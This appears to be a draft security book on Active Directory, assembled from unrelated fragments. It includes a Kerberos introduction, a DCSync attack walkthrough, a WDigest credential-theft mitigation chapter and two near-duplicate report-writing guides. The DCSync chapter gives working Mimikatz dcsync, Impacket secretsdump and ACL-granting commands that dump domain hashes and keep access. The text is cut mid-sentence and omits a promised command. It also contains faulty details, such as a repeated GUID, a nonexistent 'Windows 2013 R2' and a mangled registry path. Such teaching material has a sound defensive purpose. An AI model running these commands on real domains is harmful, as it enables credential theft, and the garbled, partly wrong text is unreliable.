Group Policy Objects represent collections of configuration settings that define user and computer environments across a network. GPOs encompass security policies, software deployment parameters, registry modifications, and administrative templates that standardize system behaviors. The strategic linking of GPOs to OUs enables targeted policy deployments, ensuring appropriate configurations reach specific user groups or computer collections without affecting the broader network.

The synergistic relationship between OUs and GPOs provides administrators with granular control over network resources while maintaining centralized governance. Proper OU design coupled with well-structured GPO implementation reduces administrative overhead, enhances security posture, and ensures consistent user experiences. Effective utilization of these technologies is essential for maintaining secure, compliant, and efficiently
\end{abstract}

\section{The Importance of Cyber Threat Intelligence and the MITRE ATT\&CK Framework}

\begin{quote}
    "I must not fear. Fear is the mind-killer. Fear is the little-death that brings total obliteration. I will face my fear. I will permit it to pass over me and through me."
    -Frank Herbert, Dune
\end{quote}
Before an organization can effectively defend its environment, it must first
%%%%%%%%%%%%%%%%%%%%% chapter.tex %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%
% sample chapter
%
% Use this file as a template for your own input.
%
%%%%%%%%%%%%%%%%%%%%%%%% Springer-Verlag %%%%%%%%%%%%%%%%%%%%%%%%%%
%\motto{Use the template \emph{chapter.tex} to style the various elements of your chapter content.}
\chapter{Introduction to Kerberos}
\label{intro} % Always give a unique label
% use \chaptermark{}
% to alter or adjust the chapter heading in the running head

\begin{abstract}
Active Directory (AD) forms the backbone of identity authentication and access management of which many Windows domain-based networks rely on to safely access a network's resources in an authenticated and authorized manner.  Relying on the Kerberos protocol for user and device verification, attackers, too, understand the amount of reliance any given company has to depend on the Kerberos to get them in to get their work done and manage the network properly so as to not disrupt end-users with workflows and processes. This reliance makes AD a prime target for attackers. This chapter explores the vulnerabilities of AD, discuss why after so many years since its release does it still remain critically vulnerable, and specifically focuses on Kerberos-based ticketing attacks that exploit inherent weaknesses in the protocol itself. The goal is to provide the reader with a comprehensive understanding of these threats to include:

\begin{itemize}
    \item Attack Analysis: Examine various Kerberos attacks commonly used against AD. Each attack will be further analyzed to understand its objectives and mechanics.
    \item Practical Implementation: Demonstrate the execution of these cyberattacks within a controlled virtual laboratory environment.
    \item Detection Strategies: Explore effective methods for identifying these attacks by analyzing system logs and network traffic.
    \item Mitigation \& Response: Propose specific countermeasures and response strategies to minimize the impact of successful cyberattacks against AD infrastructure.
    

\end{itemize}

This chapter will detail each cyberattack, providing a practical, hands-on approach. We will then discuss the attacks in a consolidated manner, comparing and contrasting their effects based on key metrics. Our findings will reveal that, while implementing these attacks can be challenging, their detection often proves even more difficult. Moreover, the potential damage from successful cyberattacks is significant; therefore, defenders must understand and fully grasp the concept of continuous log monitoring, coupled with strict adherence to mitigation and response best practices, is crucial for maintaining the security of AD environments.
\end{abstract}

\section{Introduction to Kerberos}
The Kerberos authentication protocol was developed by MIT, the Massachusetts Institute of Technology as a solution to address security problems and challenges inherent in communications over insecure Internet channels. According to its official documentation, Kerberos leverages strong cryptographic techniques that enable a client to securely verify its identity to a server, and vice versa, even when operating across an untrusted network environment. This mutual authentication process not only establishes trust between the client and server but also allows them to encrypt subsequent communications, thereby safeguarding the confidentiality and integrity of their data exchanges throughout the transaction. Despite these significant security benefits. Kerberos is not without its vulnerabilities and presents several notable weaknesses, for example, a major drawback of a centralized authentication system is that it creates a single point of failure. Should the \textit{Authentication Service (AS)} or the \textit{Ticket Granting Service (TGS)} experiences downtime or becomes unavailable, users will be unable to gain access to any services. To mitigate this risk, multiple servers are deployed for redundancy, and data is replicated across them to ensure data is duplicated (for redundancy purposes) and is continuously available.

Another notable weakness is the critical requirement for the system's proper functioning in that all participants maintain synchronized clocks. If the time settings between clients and servers fall out of sync, the issued Kerberos tickets become invalid, preventing anyone from authenticating and accessing network resources.

Additionally, because all cryptographic keys are stored on a single central server, this design (in and of itself) presents a significant security risk. If an attacker successfully breaches this server, they could potentially impersonate any user by gaining access to their authentication credentials, thereby compromising the entire system; therefore, safeguarding the central server and implementing strong security measures is paramount for defenders to better protect against such attacks.

Exploiting these vulnerabilities is critically important because Kerberos serves as the default authentication protocol within Windows networks, which are extensively utilized across \textit{Local Area Network (LAN) } environments. Successfully carrying out such attacks can lead to varying degrees of compromise within a Windows domain, underscoring the necessity of thoroughly understanding both the nature of these attacks and the methods by which they can be detected and prevented. Furthermore, as highlighted in Figure 1, attacking the Kerberos protocol presents significant challenges, it begs to ask the question why are will still so damn vulnerable after all these years?

Furthermore, attacking the Kerberos authentication protocol presents three critical challenges often faced by defenders:

1. Access:
Once an attacker gains local administrator privileges on a compromised machine, they can extract additional credentials stored on that system. These credentials, if not promptly identified and removed, enable an attacker to move laterally throughout the network-accessing other devices and systems beyond the initial toehold. This lateral movement allows the attacker to escalate their privileges further eventually gaining unauthorized entry to mission-critical and service-dependent assets within the operational infrastructure. In essence, initial compromise acts as springboard for broader network infiltration and deeper system control.

2. Obscurity:
To bypass security controls and avoid detection by monitoring tools, attackers often leverage Kerberos tickets to impersonate legitimate users. By reusing valid Kerberos tickets, they can effectively bypass usual authentication mechanisms without raising immediate suspicion. This tactic allows attackers to operate covertly within the network, masking their activities and erasing standard authentication log entries that would typically signal unauthorized access attempts. As a result, attackers remain hidden, blending in as trusted users while conducting malicious actions unnoticed.

3. Persistence:
Maintaining a long-term, undetected presence within a victim’s network is a key goal for attackers seeking to extract information gradually. Kerberos-based attacks provide a critical advantage in achieving persistence because attackers can maintain valid session tokens even after user credentials are changed or passwords are reset. This means that malicious actors can continue to utilize Kerberos tickets to sustain their access and operations over extended periods, effectively “living off the land” without raising alarms. The ability to persist despite credential updates makes Kerberos attacks particularly challenging to detect and remediate, giving attackers the time they need to exfiltrate data or compromise systems at their own pace.

 

 



















\include{mainmatter/chapter14}
\chapter{Vulnerability Assessment \& Penetration Testing (VAPT) Report Writing}

This module assists the ethical hacker in fully understanding the process involves in conducting network Vulnerability audits and tests and transferring the output identified through those scans down in the form of a digestible reporting format. This module also determines the severity of the risks that networks face and the countermeasures needed to mitigate those risks.

Writing a report on network Vulnerability assessments is an art which is developed with years spent in the field of Information Security and its aim is to provide an insight into the nuances of report writing for aspiring ethical hackers.

We discuss Project Overview Statements and Project Scope Documentation, which form an important part of network analysis. To be successful, the network Vulnerability Assessment team will have to identify what the network security and the vulnerability analysis cover to finally make a comprehensive report both technical and non-technical audiences can understand.


Information Security Lifecycle
Goals of Vulnerability Assessment
How to Create a Comprehensive Vulnerability Assessment Report
What Are Vulnerabilities? A Management Perspective
Classes of Vulnerabilities
Elements of a Thorough Vulnerability Assessment
Project Scoping
Project Overview Statement
Developing the Project Scope
Bottom-Up Scope Questionnaire
Configuration Audit
Project Scope Document
Reviewing Documentation for Accuracy
NVA Sample Report
Vulnerability Assessment Report

\chapter{Attacking Active Directory with DCSync}

In this section, we will be focusing on abusing the Directory Replication Services within Active Directory. For clarity and brevity, we will first discuss the Directory Services Replication feature of Active Directory and then will have a comprehensive walkthrough both covering the theoretical and practical aspects of this abusive attack.

Note: The DCSync attack is listed as an "Enterprise Credential Dumping" technique in the MITRE ATT\&CK Framework, bearing the ID of 1003.006.

What is AD Replication?
In most cases, it's a good idea to have multiple domain controllers per domain not only for redundancy reasons, but to control and manager AD Objects, such as attributes and permissions, in the environment. To keep these multiple domain controllers in sync with each other, Microsoft introduced the Directory Replication Service in Active Directory, which can be abused to obtain password hashes of vulnerable user accounts in the Active Directory Users and Computers container.
Any Domain User with the following permissions set can request for replication of objects in the AD infrastructure, including the NTLM hashes of vulnerable users to eventually dump the NTDS.dit file from a DC:

`CN: DS-Replication-Get-Changes (GUID: 1131f6ad-9c07-11d1-f79f-00c04fc2dcd2)`
`CN: DS-Replication-Get-Changes-All (GUID: 1131f6ad-9c07-11d1-f79f-00c04fc2dcd2)`
CN: DS-Replication-Get-Changes-In-Filtered-Set (GUID: 89e95b76-444d-4c62-991a-0facbeda640c)`

By default, members of the Administrators, Domain Admins, Enterprise Admin groups and Computer Objects within the domain controller(s) all have AD Replication rights assigned.

How the DCSync Attack Works
The attacker first compromises a vulnerable users and establishes a toehold (e.g., foothold) on a vulnerable Windows machine in the network and discovers a domain controller in the specified domain name. Next, the attacker discovers that the compromised user bears replication rights. The attacker is able to request to the DC to replicate user credentials via the `GetNCChanges` command which leverages the Directory Replication Service Remote Protocol. The attacker then sends an `IDL\_DRSGetNCChanges` request to the target domain controller to replicate AD objects from the server NC (Naming  Context) Replica to the client NC Replica. The response from the server contains the set of updates that the attacker has just requested.
<img src="https://miro.medium.com/v2/resize:fit:700/1*wXUXEbclnsJGtSnBn\_eniw.png"/>

Practical Demonstration of a DCSync Attack
Following the Assumed Breach methodology, we have access to a user's Windows machine within an Active Directory domain environment. Our next step is to do some enumeration tasks to see what privileges our vulnerable users has assigned. Enumerating group memberships reveals to use that our vulnerable users is simply a Domain User.
<img src="https://miro.medium.com/v2/resize:fit:700/1*KLAn-ipJGqILCL86YPTvWQ.png"/>
> WHOAMI /all

Using the PowerView tool, we can check to see if our vulnerable user has permissions to replicate directory services by executing the following command within the PowerView terminal:

`> Get-ObjectACL -Identity "DC=dcell,DC=local"`
<img src="https://miro.medium.com/v2/resize:fit:700/1*9ME7fs1iVSTcTDXILaaR9g.png"/>

Since our vulnerable users has Directory Services Replication privileges, we once again use Mimikatz to request and dump NTLM hashes from the domain controller by executing the below command:

lsadump::dcsync /domain:DCELL.local /user:krbtgt
<img src="https://miro.medium.com/v2/resize:fit:700/1*EX5cAjkodXwQCixZ5gB1iA.png"/>

lsadump::DCSync /domain:DCELL.local /user:administrator
<img src="https://miro.medium.com/v2/resize:fit:700/1*I3nSxXevfYeksnHlVXpX6A.png"/>

Alternatively, this can also be done using the tool Impacket. Within this tool is a Python script labeled `secretsdump.py.`

 python secretsdump.py
dcell.local/dcell1:'Uer1123'@192.168.138.130
<img src="https://miro.medium.com/v2/resize:fit:700/1*W10tn\_7Zb7L-8MQWi2eu9Q.png"/>

If an attacker is able to obtain Domain Admin privileges, first say goodbye to your domain as you will probably be locked out of it, and all backdoors or secret admin pathways you created for emergency use only will most likely be sniffed out and modified as well. Using this following PowerShell script command, we can push the Directory Services Replication as such:
> Add-ObjectACL -PrincipalIdentity Attacker -Rights DCSync

Detecting a DCSync Attack
It is important for defenders to monitor domain controllers frequently. Monitor for replication requests  by filtering for Event ID 4662. Also, keep a watchful eye for network protocols rarely used and for unknown IP addresses that are all of a sudden requesting AD Replication.
<img src="https://miro.medium.com/v2/resize:fit:700/1*7jb6prtmpomKSADB-xfbaA.png"/>

Defending Against a DCSync Attack
- Ensure that strong and complex passwords are set and strong Password policies are enforced with all employee and staff members adhering to their established procedures.
- Apply Access Control Lists (ACLs) for Replicating Directory Changes and other properties associated with AD Replication tasks.
- Ensure that users or domain admin accounts are not stored within the local administrators group.


\chapter{How to Mitigate Mimikatz WDigest Cleartext Credential Theft}

Ethical hackers and malicious adversaries often focus on using the easiest attack vector to achieve objectives. One common attack vector that has been around for several years is to use a tool called Mimikatz and steal cleartext credentials from memory of compromised Windows systems.

Systems Affected

Windows 7 and Windows Server 2008 (legacy OS's are also vulnerable).
Newer versions such as Windows 11 and Windows Server 2019 are not vulnerable by default, but can be reconfigured (via a quick Registry modification) to be vulnerable if an attacker has SYSTEM-level privileges.

Impact
An attacker that has administrative privileges can steal credentials from the memory of compromised systems. Credentials in memory are stored in cleartext and various hash formats.

Description
Starting with Windows XP, Microsoft added support for a protocol known as WDigest. The WDigest protocol is used for clients to send cleartext credentials to Hypertext Transfer Protocol (HTTP) and Simple Authentication Security Layer (SASL) applications based on RFC 2617 and 2831. Windows stores the password in memory for convenience of the user when they login to their local workstation.

Lab Configuration
In our lab environment, we have the following systems setup:
`10.10.10.4` Windows Server 2008 R2
`10.10.10.6` Windows 7

Our domain controller is running Windows 2013 R2.

To attack, we will be using the CrackMapExec tool to demonstrate how we can steal credentials from some test systems. This works by using PowerShell to execute Mimikatz first on both target systems. The stolen credentials are shown below:
$$<img src="https://www.praetorian.com/wp-content/uploads/2024/06/5cdc3206a4217f2425167266_image00.png"/>$$

Recommendations
Microsoft released KB 2871997 to address this issue specifically and several other related issues. This patch includes making another Registry change that is necessary in preventing credentials from being stored in memory. For a single system, this can be done via the following PowerShell command:

Please take note that some IIS servers may be configured to use WDigest authentication. We recommend testing this fix in a lab environment, of course, before rolling out to production.
To verify the change was effective, we can use the following command and inspect the output:

req query HKLMSYSTEMCurrentControlSetControlSecurityProvidersWDigest /v UseLogonCredential

This should return the following result:

HKEY\_LOCAL\_MACHINESYSTEMCurrentControlSetControlSecurityProvidersWDigest UseLogonCredential REG\_DWORD 0x0

Most administrators prefer to use Group Policy to make a registry change and automatically roll out to affected systems since its a centralized approach. This can be done using the following steps as shown below:

1. Open the Group Policy Management Console (GPMC). Right-click the Group Policy Object (GPO) that should contain the new preference item, and then click Edit.
%<img src="https://www.praetorian.com/wp-content/uploads/2024/06/5cdc3206f26ba4ff9f48fb3e_image06.png" alt="group policy management edit"/>

In the console tree under Computer Configuration or User Configuration, expand the Preferences folder, and then expand the Windows Settings folder. Right-click the Registry node, point to New, and then select Registry Item.
%<img src="https://www.praetorian.com/wp-content/uploads/2024/06/5cdc32064b4cafb30a5edcfc_image03.png" alt="group policy management editor"/>

In the New Registry Item dialog box, select and Create for Group Policy to perform. Now, enter the following settings:

Action: Create
Hive: HKEY\_LOCAL\_MACHINE
Key Path: SYSTEMCurrentControlSetControlSecurityProvidersWDigest
Value Name: UseLogonCredential
Value Type: REG\_DWORD
Value Data: 0
Base: Decimal
%<img src="https://www.praetorian.com/wp-content/uploads/2024/06/5cdc3206bc4a3829217e4ec6_image04.png"/>

After everything looks good, click OK. The new preference item now appears in the Details pane. Now, instead of waiting for the default 90 minutes Group Policy replication interval to kick in, we can get a head start by forcing GPO enforcement upon the container in which we just configured the Registry change for. This can be done by running the following command on a Windows system that is part of an Active Directory-managed domain:

gpupdate /force

Next, verify that the changes have taken place, and test for any unforeseen anomalies this change may have caused.
Below, we can see that everything looks good on our Windows 7 system.
%<img src="https://www.praetorian.com/wp-content/uploads/2024/06/5cdc32062df07064ea4f9cd2_image05.png" alt="use logon credential"/>

Next, we will verify that everything looks good to go on the Windows Server 2008 R2 system:
%<img src="https://www.praetorian.com/wp-content/uploads/2024/06/5cdc3207f26ba44ac648fb3f_image01.png"/>

Now, we will go ahead and reboot both of these systems and then login using the same domain credentials we had used previously. The Registry change does not always require a reboot, but it's best practices and since the credentials are stored in memory, the best way to flush them is just to do a quick reboot.
Finally, we'll rerun CrackMapExec to verify that the change was effective. After reboot, the cleartext credentials should no longer be stored in memory; however, NTLM hashes can still be retrieved. As a result, strong passwords and two-factor authentication remain important to safeguard against password cracking attacks. Equally as important is ensuring a strong defensive strategy to Mitigate Pass-the-Hash (PtH) attack vectors. Microsoft has several resources on this topic which can be found below at the following locations.

https://www.microsoft.com/pth
https://download.microsoft.com/download/7/7/A/77ABC5BD-8320-41AF-863C-6ECFB10CB4B9/Mitigating-Pass-the-Hash-Attacks-and-Other-Credential-Theft-Version-2.pdf

Attackers are still able to revert the Registry changes on any system in which they can achieve SYSTEM-level rights. The Registry change does NOT require a reboot. Defenders should monitor the Registry for unauthorized changes.


\chapter{Attacking and Defending Active Directory (AD) for Ethical Hackers Handbook}

1. Chapter 1: The Blueprint of Enterprise Control: Unmasking Active Directory's Core Security Architecture Objective: Deconstruct the fundamental components of Active Directory and their inherent security implications, establishing a proactive framework for identifying critical attack surfaces and preparing for sophisticated engagements.


Understanding Active Directory's Architecture: The Attacker's View
Domain Controllers and Global Catalogs: Core Trust Boundaries and Replication Targets
NTDS.DIT Database: The Crown Jewels of Many Organizations AD Credentials and Objects
SYSVOL and Group Policy objects (GPOs): Policy Enforcement and Configuration Weaknesses
DNS Integration: Critical for Resolution, Critical for Reconnaissance
Authentication Mechanisms: Cracking the Enterprise Gateways
Kerberos Protocol: Golden Tickets, Silver Tickets, and Beyond
NTLM: Hash Harvesting and Pass-the-Hash (PtH) Vulnerabilities
Multi-Factor Authentication (MFA) Bypass Techniques: Beyond Simple Credential Theft
Active Directory Objects: Enumerating and Exploiting Permissions
Users and Groups: Identifying privileged Accounts and Their Relationships
Service Accounts: Weak Passwords and Kerberoasting Targets
Organizational Units (OUs): Delegation Misconfigurations

- Offensive Reconnaissance: Unveiling Hidden Pathways to Complete Domain Control
-- Passive Information Gathering: Low-Risk Footprinting for High-Value Targets
--- Open-Source Intelligence (OSINT) for AD: Public Records and Exposed Data
--- DNS Enumeration: Mapping the Domain Landscape
--- Email and Employee Information Harvesting: Social Engineering Pre-cursors
-- Active Enumeration: Interrogating Active Directory Directly
--- LDAP Querying: Discovering Objects, Attributes, and Permissions
--- SMB Enumeration: Identifying Shares, Sessions, and Potentially Sensitive Data
--- Service Principal Name (SPN) Scanning for Kerberoasting: Identifying Service Accounts for Credential Theft
--- Vulnerability Scanning for Known Flaws: Automated Discovery of Weak Links

- Defensive Measures: Establishing a Resilient Active Directory Perimeter
-- Principle of Least Privilege Enforcement: Minimizing the Attack Surface
--- Tiered Administration Models: Isolating Critical Assets
Just-in-Time (JIT) Access: Ephemeral Privileges for High-Risk Tasks
Role-Based Access Control (RBAC) in AD: Granular Permission Management
\chapter{Reporting and Documentation: Delivering Clear and Impactful Security Assessment Documentation}

Performing the technical aspects of a security assessment is only half the battle. The other, equally important half is delivering a comprehensive, clear, and actionable report. A well-crafted report not only communicates your findings effectively but also demonstrates the professionalism and quality of your work, helping clients understand the risks and make informed decisions.

A security assessment report serves as both a communication tool and a reference document. It bridges the gap between technical teams, business leadership, and external stakeholders by translating complex security findings into understandable and relevant information.


About This Reporting Guide

This guide offers **recommendations and best practices** on how to structure and write effective security assessment reports. It is important to remember:

- These recommendations are **suggestions, not rigid rules**. Use your judgment to decide what improves clarity, relevance, and professionalism in your report.
- The approach provided here is best suited for **consultancy-style reports** delivered to clients after an engagement, often within formal contractual contexts.
- For internal assessments, continuous monitoring environments, or bug bounty reports, this level of granularity might be excessive and can be adjusted accordingly.
Regardless of context, securing your report is essential. Use encryption and access controls to ensure that only authorized parties review sensitive findings.

Why a Good Report Matters

A quality report is indispensable because:

- **Findings are only as valuable as their comprehension and actionability.** No matter how thorough your technical testing is, if the audience cannot understand or trust the report, your efforts are wasted.
- The report **supports risk management and decision-making** by articulating clearly what is at risk, how severe the risks are, and what steps mitigate them.
- It also **serves as a documentation trail** for compliance, audits, future assessments, and remediation tracking.
- A well-structured and professional report enhances your reputation and builds trust with clients.


Key Components of an Effective Security Assessment Report

Below is a detailed breakdown of the essential sections and what to include in each.

1. Introduction

The introduction sets the stage for the report, establishing context and basic information. Elements include:

1.1 Version Control

Maintain a document history to track changes and updates to the report. Present this clearly in a table format showing:

| Version | Description | Date | Author |
| --- | --- | --- | --- |
| 1.0 | Initial Report | DD/MM/YYYY | J. Doe |
| 1.1 | Updated Findings | DD/MM/YYYY | J. Doe |



This is critical for reference during follow-ups or re-assessments.

1.2 Table of Contents

Provide a clear, paginated overview of all sections, allowing readers—especially executives and technical reviewers—to navigate the report easily.

1.3 The Team

List assessment team members, highlighting their qualifications, certifications, and roles. This builds credibility and transparency about expertise involved.

 1.4 Scope

Clearly define the boundaries of the engagement:

- Systems, networks, applications tested.
- Types of tests performed (black box, white box, gray box).
- Time frames.
- Exclusions (what was *not* tested and why).

A well-defined scope prevents misunderstandings about what the report covers.

 1.5 Limitations

Document any factors impacting the assessment’s breadth or depth, such as:

- Systems or assets out of scope.
- Non-functional or failed systems limiting testing.
- Access or credential constraints.
- Time or resource restrictions.

Transparent disclosure of limitations sets realistic client expectations and contextualizes results.

 1.6 Timeline

Outline the schedule of the assessment activities: when testing started, key milestones, and when the report was finalized.

 1.7 Disclaimer

Include a professionally reviewed disclaimer to clarify that:

- The assessment represents a *snapshot* in time — security postures and risks evolve.
- Testing cannot guarantee complete vulnerability detection.
- The report does not serve as a warranty or absolute guarantee.

**Example disclaimer (for illustration only):**

> “This security assessment was conducted on specified systems as of [date]. It reflects the state of the infrastructure at that time. The dynamic nature of technology means that new vulnerabilities may arise subsequent to this test. This document is a guiding tool for risk management and does not provide absolute assurance of system security.”


*Note: Always consult legal counsel to draft or review disclaimers.*


2. Executive Summary

This high-level section distills the most critical information for decision-makers without technical jargon:

- **Objective of the Test:** Why was the assessment performed?
- **Business Rationale:** What business drivers or compliance needs motivated the engagement?
- **Summary of Findings:** Key risks, potential impacts (financial loss, reputation, compliance breaches)
- **Strategic Recommendations:** Broad, non-technical steps the business should take to mitigate systemic security gaps (for example, implement regular patching, enforce authentication controls).

**Best Practices:**

- Use clear, concise language.
- Avoid unnecessary details or technical terms.
- Present data visually with charts or risk heatmaps if it clarifies messages.
- Focus on business impact and remediation priorities.
- Maintain a constructive tone; emphasize solutions alongside risks.


3. Findings

This section is **the technical heart** of the report and should equip engineers, developers, and security teams with actionable details.

 3.1 Findings Summary

Present a concise, tabular overview listing all identified vulnerabilities:

| Ref. ID | Title | Risk Level |
| --- | --- | --- |
| 1 | User Authentication Bypass | High |
| 2 | Cross-Site Scripting (XSS) | Medium |



This allows stakeholders to quickly grasp the scale and severity of issues.

 3.2 Detailed Findings

For each vulnerability, provide:

- **Reference ID:** Unique identifier for easy cross-referencing.
- **Title:** Clearly describe the issue (e.g., “User Authentication Bypass”).
- **Risk Level \& Scoring:**
    - Use a consistent severity scale such as Informational, Low, Medium, High, Critical.
    - Explain how risk levels are assigned (criteria such as exploit complexity, potential impact, access requirements).
    - If applicable, provide CVSS (Common Vulnerability Scoring System) scores, especially for larger or compliance-driven engagements.
- **Description:** Comprehensive explanation including:
    - What the vulnerability is.
    - How it affects the system.
    - How an attacker can exploit it.
    - Potential damage (data leakage, privilege escalation, denial of service).
    - Avoid including sensitive data in screenshots or examples; redact personally identifiable information.
- **Reproduction Steps:** Detailed, clear, and step-by-step instructions or proofs of concept enabling the technical team to replicate and validate the finding.
- **Remediation \& Mitigation Advice:**
    - Specific, practical recommendations to fix or mitigate the vulnerability.
    - Include coding examples, configuration changes, or architectural improvements if appropriate.
    - Suggest best practices for ongoing security posture improvements.
- **References \& Resources:**
    - Links to CVEs, vendor advisories, OWASP guidelines, or educational materials.
    - Include supporting visuals such as annotated screenshots or diagrams.

**Formatting Tips:**

- Use clear headings and bullet points.
- Separate each finding distinctly for readability.
- Tailor technical depth for the expected audience (developers vs. senior security engineers).


4. Appendices

Include supplementary information that supports but does not clutter the main report:

- **Test Methodology:** Explanation of testing approaches, tools, techniques, and standards used (e.g., OWASP Testing Guide, NIST).
- **Risk Rating Criteria:** Detailed definitions of severity levels and scoring mechanisms applied.
- **Tool Output \& Logs:** Relevant, sanitized excerpts from scanners, fuzzers, or penetration testing tools.
- **Testing Checklist:** Complete list of all tests performed to demonstrate coverage and workflow consistency.
- **Glossary:** Definitions of technical terms for less-technical readership.

*Note:* Avoid dumping raw data indiscriminately; curate output to emphasize clarity and relevance.


5. References and Further Reading

Though not mandatory within the core report, it can be helpful to advise readers on reputable sources to deepen understanding:

- **SANS Institute:** Guides on cybersecurity report writing.
- **OWASP:** Testing guides and prevention cheat sheets.
- **Infosec Institute:** Best practices on penetration testing reports.
- **Rhino Security Labs:** Recommendations on effective report content.


Additional Best Practices for Effective Reporting

1. **Audience Awareness:**  

Adapt language and emphasis depending on the primary readership—executive summaries for leadership, detailed findings for engineers, risk assessments for managers.
2. **Clarity and Objectivity:**  

Avoid ambiguous or overly speculative statements. Support claims with evidence. Avoid jargon in executive sections.
3. **Visual Aids:**  

Use tables, graphs, and heatmaps to convey quantitative data clearly.
4. **Actionability:**  

Clearly delineate what actions are recommended and prioritize fixes by impact and urgency.
5. **Confidentiality and Security:**  

Protect your report with encryption and access controls. Avoid embedding credentials or sensitive production data.
6. **Proofreading and Consistency:**  

Check spelling, grammar, numbering, and cross-references carefully. Consistent formatting enhances readability.
7. **Timeliness and Updates:**  

If delivering updated or re-test reports, clearly differentiate new findings and remediations.


Conclusion

The **report is the primary deliverable** from your engagement and often the client's enduring artifact referencing your work. It must not only document vulnerabilities but also translate them into business risks and remedial actions that drive meaningful security improvements.

By investing time and care into crafting your report—focusing on clarity, completeness, accuracy, and audience relevance—you maximize the value of your technical assessment and strengthen trust with your clients.
\chapter{Reporting in Security Assessments: A Comprehensive Guide}

Below is a comprehensive, expanded, and detailed guide on **Reporting** in the context of penetration testing or security assessments. This includes the rationale behind good reporting, detailed section-by-section guidance, best practices for various audiences, and additional considerations for delivering professional and actionable security assessment reports. This full coverage reflects a typical industry-standard consultancy report structure with expanded explanations and practical advice.


Reporting in Security Assessments: A Comprehensive Guide

Performing high-quality technical testing and assessments is essential, but **delivering the results effectively through a well-written report is equally crucial**. The report serves as the primary communication artifact, bridging the gap between the technical team, business leadership, and stakeholders.

A high-quality report enables clients to understand their security posture, prioritize risks, allocate resources effectively, and improve security practices. Without clear communication, even the most thorough assessments lose their value.


Overview: Why Focus on Reporting?

1. **Bridges Technical and Business Audiences**  

Different stakeholders require different information — executives want business impact and action plans, while engineers need detailed technical data to fix issues.
2. **Demonstrates Professionalism**  

A clear, well-structured, and carefully crafted report reflects your expertise and the quality of your engagement.
3. **Documents Findings for Future Reference**  

Serves as a baseline for remediation, compliance audits, and future re-assessments.
4. **Protects Client Interests**  

Discloses limitations, scope, disclaimers, and ensures confidentiality in sharing sensitive information.


About This Reporting Guide

- The guidance here is a **recommended best practice framework**, not a strict template to blindly follow.
- Adapt the content and depth depending on the **type of engagement** (consultancy, internal audit, bug bounty, compliance audit), **audience requirements**, and **client expectations**.
- The report should always be **secured** — use encryption and controlled distribution to prevent unauthorized exposure.


Components of an Effective Security Assessment Report

Below is a comprehensive section-by-section breakdown of typical report content and what should be included in each.


1. Introduction

The introduction sets the context for the entire report and provides transparency into who performed the assessment, what was tested, and under what conditions.

1.1 Version Control

Track changes, revisions, and authorship clearly and concisely. This can be maintained through a table, for example:

| Version | Description | Date | Author |
| --- | --- | --- | --- |
| 1.0 | Initial Report | 04/05/2025 | Jane Doe |
| 1.1 | Added Findings | 15/05/2025 | John Smith |



Version control is vital for organizations to track updates as issues get resolved or reassessment occurs, and it fosters accountability.

1.2 Table of Contents

An organized, paginated table of contents enables quick navigation through large reports and distinguishes sections targeted at different reader groups.

1.3 The Team

List your assessment team members with brief bios including:

- Roles during the assessment (e.g., penetration tester, lead analyst).
- Relevant certifications (CISSP, OSCP, CEH, etc.).
- Specialized skills (e.g., web app security, network penetration).

This adds credibility and accountability for the document.

1.4 Scope

Clearly define what was tested and what was excluded. Items to specify:

- Target systems, applications, networks, and assets.
- Type of tests performed (black box, white box, gray box).
- Inclusion/exclusion criteria (off-limits assets, services).
- Types of vulnerabilities or scenarios not tested (physical security, social engineering if applicable).

This prevents misunderstandings and scope creep accusations later.

1.5 Limitations

Disclose factors that constrained the assessment, such as:

- Restricted or no access to certain environments or credentials.
- Broken, unavailable, or highly unstable systems.
- Limited assessment duration or testing windows.
- Non-cooperation from key stakeholders or teams.

Being transparent about limitations helps contextualize findings and limits liability.

1.6 Timeline

Summarize the engagement timeline including:

- Start and end dates.
- Key milestones such as testing phases, interim deliverables, client meetings.

This supports future audit trails and shows adherence to schedules.

1.7 Disclaimer

Include a professional disclaimer, drafted or reviewed by legal teams, to clarify:

- The assessment is a “point-in-time” snapshot, recognizing the dynamic threat landscape.
- The testing cannot guarantee finding all vulnerabilities.
- The report is advisory, not a legally-binding warranty.

**Example Disclaimer (illustrative only — do NOT use as-is):**

This security assessment was performed during the period indicated above and reflects the state of the tested environment at that time. The technology landscape and vulnerabilities are constantly evolving; new risks may have emerged since testing. This report is intended to support risk management decisions and does not represent a warranty or guarantee of security.



2. Executive Summary

This section is targeted at executives, business managers, and non-technical stakeholders. It should capture the essence of the engagement succinctly and clearly.

What to Include:

- **Assessment Objective:** Clearly describe why the test was conducted (e.g., compliance requirement, due diligence, identifying risks prior to a launch).
- **Business Context:** Connect findings to business impact — reputational risk, financial loss, regulatory fines.
- **Summary of Key Findings:** Present most critical vulnerabilities impacting business operations or compliance, avoiding technical jargon.
- **Strategic Recommendations:** Broad, high-level advice, such as improving patch management, strengthening access controls, or enhancing security awareness. Technical remediation details are omitted here.
- **Positive Notes:** Include any good practices or strong controls observed.

Best Practices:

- Keep it concise — ideally one to two pages.
- Use clear and plain language to make it accessible to stakeholders without technical backgrounds.
- Avoid excessive negative speculation; focus on constructive information.
- Use visuals if it aids clarity (risk heatmaps, charts).


3. Findings

The findings section is the core detailed, technical content to support remediation efforts.

3.1 Findings Summary

Provide an overview table:

| Ref. ID | Vulnerability Title | Risk Level | Status (if re-test) |
| --- | --- | --- | --- |
| 1 | SQL Injection in Login Form | Critical | Open |
| 2 | Missing HTTP Security Headers | Medium | Remediated |



This allows quick browsing and referencing for technical and managerial teams.


3.2 Findings Details

For each vulnerability, deliver a thorough, actionable write-up:

**Reference and Identification**

- Unique Ref. ID for clear cross-referencing across the report and communications.

**Title**

- Concise, descriptive name such as “Cross-Site Scripting (XSS) in Search Field.”

**Risk Level and Scoring**

- Assign a severity rating (Informational, Low, Medium, High, Critical).
- Explain why the rating was assigned, considering factors like ease of exploitation, attacker motivation, potential impact, and prerequisite access.
- Optionally include CVSS v3.x scores if required or beneficial.
- Include an appendix explaining the scoring methodology for transparency.

**Description**

- Clear explanation of:
    - What the vulnerability is.
    - How it can be exploited (with examples or PoCs).
    - The expected impact on confidentiality, integrity, availability, or compliance.
- Avoid including sensitive or personal customer data in examples; ensure redaction.

**Reproduction Steps**

- Provide step-by-step instructions enabling technical teams to reliably reproduce the vulnerability for verification and remediation testing.

**Remediation Recommendations**

- Specific guidance on fixing or mitigating the issue:
    - Code fixes, configuration changes, architectural improvements.
    - Recommended security controls or best practice adherence.
- Suggest alternative mitigations if immediate fixes are impractical.

**Supporting Evidence**

- Attach sanitized screenshots, HTTP request/response captures, logs, or diagrams illustrating the vulnerability.

